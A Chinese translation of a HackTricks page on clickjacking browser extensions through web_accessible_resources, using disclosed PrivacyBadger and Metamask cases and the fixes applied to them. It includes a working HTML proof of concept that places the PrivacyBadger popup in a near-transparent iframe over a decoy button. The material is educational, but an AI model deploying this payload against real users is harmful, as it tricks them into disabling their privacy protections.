 # BrowExt - 点击劫持

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中被广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
- **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

本页面将利用浏览器扩展中的点击劫持漏洞。\
如果您不知道什么是点击劫持，请查看：

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

扩展包含文件**`manifest.json`**，而该JSON文件具有字段`web_accessible_resources`。以下是[Chrome文档](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources)对此的解释：

> 这些资源将通过URL **`chrome-extension://[PACKAGE ID]/[PATH]`** 在网页中可用，可以使用**`extension.getURL方法`**生成。经过允许的资源将使用适当的CORS标头提供，因此可以通过XHR等机制访问。[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

浏览器扩展中的**`web_accessible_resources`**不仅可以通过网络访问，还可以使用扩展的固有特权。这意味着它们具有以下功能：

- 更改扩展的状态
- 加载其他资源
- 在一定程度上与浏览器交互

然而，这个功能存在安全风险。如果**`web_accessible_resources`**中的资源具有任何重要功能，攻击者可能会将此资源嵌入到外部网页中。访问此页面的用户可能会无意中激活此嵌入式资源。根据扩展资源的权限和功能，此激活可能导致意外后果。

## PrivacyBadger示例

在扩展程序PrivacyBadger中，发现了一个与`skin/`目录相关的漏洞，以以下方式声明为`web_accessible_resources`（查看原始[博客文章](https://blog.lizzie.io/clickjacking-privacy-badger.html)）。
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
这种配置导致了潜在的安全问题。具体来说，`skin/popup.html` 文件在与浏览器中的 PrivacyBadger 图标交互时呈现，可能会被嵌入到一个 `iframe` 中。这种嵌入可能被利用来欺骗用户，使其无意中点击“为此网站禁用 PrivacyBadger”。这样的操作将通过禁用 PrivacyBadger 保护来危害用户的隐私，并可能使用户受到更多跟踪的影响。可以在提供的 ClickJacking 视频示例中查看此漏洞的视觉演示：[**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm)。

为了解决这个漏洞，实施了一个简单直接的解决方案：从 `web_accessible_resources` 列表中移除 `/skin/*`。这一变更有效地通过确保 `skin/` 目录的内容不能通过 web 可访问资源来访问或操纵，从而减轻了风险。

修复方法很简单：**从 `web_accessible_resources` 中移除 `/skin/*`**。

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Metamask Example

[**关于Metamask中ClickJacking的博文可以在这里找到**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)。在这种情况下，Metamask通过检查用于访问它的协议是否为**`https:`**或**`http:`**（例如不是**`chrome:`**）来修复了漏洞：

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Metamask扩展中的**另一个ClickJacking漏洞**是，当页面因`“web_accessible_resources”: [“inpage.js”, “phishing.html”]`而被怀疑是钓鱼页面时，用户可以**点击以将其加入白名单**。由于该页面容易受到Clickjacking攻击，攻击者可以滥用它显示正常内容，使受害者在不知情的情况下点击将其加入白名单，然后返回到已被加入白名单的钓鱼页面。

## Steam Inventory Helper Example

查看以下页面，了解浏览器扩展中的**XSS**是如何与**ClickJacking**漏洞链接在一起的：

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## References

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
